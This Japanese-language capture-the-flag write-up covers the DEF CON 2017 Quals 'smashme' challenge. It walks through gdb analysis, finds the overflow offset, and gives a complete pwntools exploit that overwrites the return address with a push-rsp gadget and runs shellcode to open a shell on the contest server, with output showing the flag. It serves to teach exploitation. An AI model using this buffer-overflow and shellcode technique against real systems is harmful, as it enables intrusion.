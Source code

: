   この `sub.ifunc_4253b0_320` がよくわからない[^1]ので gdb で処理を追ってみたところ, [`strstr`](http://en.cppreference.com/w/c/string/byte/strstr) に飛ぶことがわかった. `strstr` は第1引数に渡した文字列に第2引数引数に渡した文字列が含まれていたらその先頭文字のアドレスを, そうでなければ `NULL` を返す関数らしい. ということは, `call` される直前で `rsi` (第2引数) に設定されている `"Smash me outside, how bout dAAAAAAAAAAA"` で始まる文字列を入力すればよさそう.

[^1]: これの一種かな? [Function Attributes - Using the GNU Compiler Collection (GCC)](https://gcc.gnu.org/onlinedocs/gcc-5.4.0/gcc/Function-Attributes.html)

gdb-peda の `pattc`, `patto` コマンドを使って調べると, 入力した文字列とリターンアドレスとののオフセットは↑の文字列+33文字なのがわかった.

    gdb-peda$ c
    Continuing.
    Welcome to the Dr. Phil Show. Wanna smash?
    Smash me outside, how bout dAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbA

    ...

    Stopped reason: SIGSEGV
    0x0000000000400a0f in main ()
    gdb-peda$ x/gx $rsp
    0x7fffffffdf48:	0x4161414145414129
    gdb-peda$ patto 0x4161414145414129
    4711118433796833577 found at offset: 33

そこで, その文字列のうしろに `0x0044611d: push rsp ; ret  ;  (2 found)` と shellcode をくっつけてみたところシェルを取ることができた. 作成したスクリプトと実行結果は次の通り.

```python
#!/usr/bin/env python2

# DEF CON 2017 Quals : smashme

from pwn import *
import sys

addr_push_rsp_ret = 0x0044611d # 0x0044611d: push rsp ; ret  ;  (2 found)

context(os='linux', arch='amd64')

if 'remote' in sys.argv:
    r = remote('smashme_omgbabysfirst.quals.shallweplayaga.me', 57348)
else:
    r = process('./smashme')

r.recvuntil('Welcome to the Dr. Phil Show. Wanna smash?\n')
buf = ''
buf += 'Smash me outside, how bout dAAAAAAAAAAA'
buf += 'A' * 33
buf += p64(addr_push_rsp_ret)
buf += asm(shellcraft.sh())
r.sendline(buf)

r.interactive()
```

    $ ./exploit.py remote
    [+] Opening connection to smashme_omgbabysfirst.quals.shallweplayaga.me on port 57348: Done
    [*] Switching to interactive mode
    $ ls
    flag
    smashme
    $ cat flag
    The flag is: You must be at least this tall to play DEF CON CTF 5b43e02608d66dca6144aaec956ec68d
    $ 
    [*] Closed connection to smashme_omgbabysfirst.quals.shallweplayaga.me port 57348
